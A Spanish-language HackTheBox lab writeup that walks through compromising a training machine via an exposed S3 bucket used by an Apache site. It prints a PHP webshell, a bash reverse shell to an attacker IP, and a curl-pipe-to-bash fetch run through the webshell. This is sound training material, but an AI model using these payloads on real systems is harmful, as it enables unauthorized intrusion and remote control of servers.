


## Introduction

En este writeup, exploramos una máquina de **[HackTheBox](https://app.hackthebox.com/)**. Comenzamos con un **reconocimiento básico** utilizando **ping** e **identificación de puertos** con **Nmap**, lo que nos permitió descubrir los servicios SSH en el puerto 22 y HTTP en el puerto 80. Con herramientas como **WhatWeb** y **Gobuster**, realizamos una enumeración de subdominios, lo que reveló la presencia de un **bucket S3** en el subdominio `s3.thetoppers.htb`.

Una vez identificado el servicio de **AWS S3**, utilizamos **AWS CLI** para listar y explorar el contenido del bucket. Tras verificar que el servidor web Apache en el puerto 80 usaba este bucket como almacenamiento, aprovechamos la posibilidad de subir una **webshell** en formato PHP al bucket S3. Esto nos permitió ejecutar comandos a través de la webshell y obtener acceso al servidor mediante una **reverse shell** utilizando **Netcat**.

Finalmente, con técnicas de enumeración estándar y el uso de herramientas como **find**, localizamos la flag en el sistema y completamos la explotación.

~~~
Platform: HackTheBox
Level: VeryEasy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.129.240.70
~~~

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**.

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

Los puertos abiertos son **22/tcp** y **80/tcp**. A continuación, realizamos un escaneo más detallado utilizando la bandera `-sCV` para obtener más información:

## Enumeration 

### 22/tcp

El puerto 22 ejecuta `OpenSSH 7.6p1 Ubuntu 4ubuntu0.7`. Observamos que la versión `OpenSSH 7.6p1` está dentro del rango de una vulnerabilidad que permite a un atacante obtener información sobre los nombres de usuario válidos en el sistema. Un atacante puede enviar múltiples intentos de autenticación y, al observar la respuesta del servidor, puede deducir si el nombre de usuario existe o no, lo que facilita ataques posteriores, como ataques de fuerza bruta (**CVE-2018-15473**)

### 80/tcp

El puerto 80 ejecuta un servidor web `Apache httpd 2.4.29 ((Ubuntu))`. Usamos la herramienta **whatweb** para obtener información adicional, pero no encontramos mucho más, únicamente se revela un correo electrónico: `mail@thetoppers.htb`

Accedemos al sitio web en `http://10.129.240.70/` y notamos que pertenece a una banda

No hay mucho que hacer en el sitio web. La única funcionalidad encontrada está en la sección de contacto, donde notamos que al enviar el formulario, se ejecuta código en **PHP**:

Llama la atención nuevamente el correo, el cual está asociado a un dominio: `thetoppers.htb`

Parece que el servidor web está configurado con un Virtual Host para responder específicamente al dominio `thetoppers.htb`. Un Virtual Host puede servir diferentes contenidos según el dominio solicitado. Para poder acceder desde el navegador, necesitamos añadir el dominio al archivo `/etc/hosts`. Esto lo haremos mediante el siguiente comando: `echo "10.129.240.70 thetoppers.htb" | sudo tee -a /etc/hosts`

Accedemos al sitio, pero esta vez con el dominio, para comprobar que todo funcione correctamente: `http://thetoppers.htb/`

### Sub-Domain enumeration

Luego de acceder al sitio y verificar nuevamente el contenido, no encontré nada interesante, por lo que procedí a realizar una **enumeración de subdominios** con la herramienta **Gobuster**

Encontramos el subdominio `s3.thetoppers.htb`, que nos reporta `Status: 404` debido a que el dominio no está en el archivo `/etc/hosts`. Por lo tanto, procedí a añadirlo con el comando `echo "10.129.240.70 s3.thetoppers.htb" | sudo tee -a /etc/hosts`

Al utilizar `whatweb http://s3.thetoppers.htb`, notamos que el servidor web ejecuta `HTTPServer/hypercorn-h11`, que es un servidor Python, probablemente utilizado para APIs. Me parece curiosa la cabecera `Access-Control-Allow-Methods[HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH]`, ya que es común en configuraciones de APIs o buckets de almacenamiento, como S3 de AWS. Además, la cabecera `UncommonHeaders[...]` indica que el subdominio podría estar configurado para manejar CORS (Cross Origin Resource Sharing), típico en APIs y, nuevamente, en buckets de almacenamiento

Luego de ingresar al sitio `http://s3.thetoppers.htb/`, me encontré con el mensaje `{"status": "running"}`

El subdominio es `s3` por lo que probablemente trata de un bucket de **Amazon s3**. Los buckets son servicios de almacenamiento que a menudo contienen los recursos de un sitio web. Para cerciorarme busco información en Google: 

Parece ser que efectivamente estamos ante un **bucket** de **Amazon S3**

> Amazon S3 (**Simple Storage Service**) es un servicio de almacenamiento en la nube proporcionado por AWS (**Amazon Web Services**). Está diseñado para almacenar y recuperar grandes volúmenes de datos de manera segura, escalable y económica. S3 es ampliamente utilizado en aplicaciones web, almacenamiento de datos estáticos, copias de seguridad, análisis de datos y mucho más.

> Un **bucket** en Amazon S3 es un contenedor virtual utilizado para almacenar objetos (archivos y sus metadatos). Es el componente central del servicio S3 y funciona como una unidad lógica para organizar y gestionar tus datos en la nube.

## Exploitation

Existen múltiples herramientas para enumerar este servicio, pero como es mi primera vez explotándolo, prefiero hacerlo de manera manual. Comienzo descargando `sudo apt update && sudo apt install awscli` y luego lo configuro con el comando `aws configure`

**[La documentación oficial de AWS s3](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html)** indica que es posible usar `ls` para listar los buckets s3

Con el comando `aws --endpoint-url http://s3.thetoppers.htb/ s3 ls`, le indico que quiero listar los **buckets S3** alojados en el servidor, y me devuelve: `thetoppers.htb`

Con el comando `aws --endpoint-url http://s3.thetoppers.htb/ s3 ls s3://thetoppers.htb`, le indico que quiero listar el contenido del **bucket S3** `thetoppers.htb`

Parece que los directorios `images/`, `.htaccess` y `index.php` son los archivos del sitio web Apache alojado en el puerto 80 descubierto en el escaneo. Por lo tanto, efectivamente Apache está utilizando este **bucket S3** como almacenamiento para el sitio web principal

**[La documentación oficial de AWS s3](https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html)** indica que es posible copiar archivos del sistema local al **bucket s3**.

Teniendo en cuenta que la página ejecuta **PHP**, es posible subir desde nuestro sistema local un archivo `.php` con el objetivo de obtener una **webshell**. Primero indicamos el contenido del archivo con `echo` y luego lo guardamos en el archivo `shell.php` con el comando: `echo '<?php system($_GET["cmd"]); ?>' > shell.php`, lo que nos permite ejecutar comandos del sistema operativo desde el servidor donde se aloja el archivo utilizando el parámetro `cmd` desde la URL:

- **`system()`**: Es una función de PHP que ejecuta un comando del sistema operativo y muestra su salida.
- **`$_GET["cmd"]`**: Recibe el valor del parámetro `cmd` de la URL o de una petición HTTP GET. Este valor se pasa directamente a la función `system()`.

Luego de crear el archivo, lo subimos al **bucket S3** con el comando `aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

Para comprobar que la **webshell** funciona correctamente, nos dirigimos directamente al archivo creado desde el sitio web y ejecutamos el comando `id` desde el cmd: `http://thetoppers.htb/shell.php?cmd=id`

Como vemos, la **webshell** funcionó correctamente. Ahora podemos aprovechar esto para utilizar una **reverse shell**. Primero usamos `echo` para escribir el comando y guardarlo en el archivo `webshell.sh` con el comando: `echo "/bin/bash -i >& /dev/tcp/<DIRECCION IP>/<PUERTO> 0>&1" > webshell.sh`

Nos ponemos en escucha con **Netcat**, en mi caso con el puerto 1717, utilizando el comando `nc -lvnp 1717`:

Luego, creamos un servidor HTTP en el puerto 8000 utilizando Python con el comando `python3 -m http.server 8000`:

Para que la **reverse shell** funcione correctamente debemos ingresar desde la URL el siguiente comando: `http://thetoppers.htb/shell.php?cmd=curl%20<DIRECCION IP>:8000/webshell.sh|bash`

Verificamos la terminal donde se está ejecutando **Netcat** y confirmamos que la **reverse shell** ha funcionado correctamente. Ahora estamos operando como el usuario `www-data`.

### tty-treatment

Lo primero que hago al acceder a la máquina a través de una **reverse shell** es configurar correctamente la tty para evitar posibles problemas innecesarios.

Como vemos nos encontramos en el directorio raíz del servidor web Apache alojado en el puerto 80: 

Después de ejecutar el comando `find / -name flag.txt 2>/dev/null` para localizar la flag, el sistema me indica que se encuentra en el directorio `/var/www/`. Luego, utilizo el comando `cd` para acceder a ese directorio y `cat` para visualizar el contenido de la flag.

Una vez obtenida la flag hemos finalizado la máquina y por ende hemos terminado.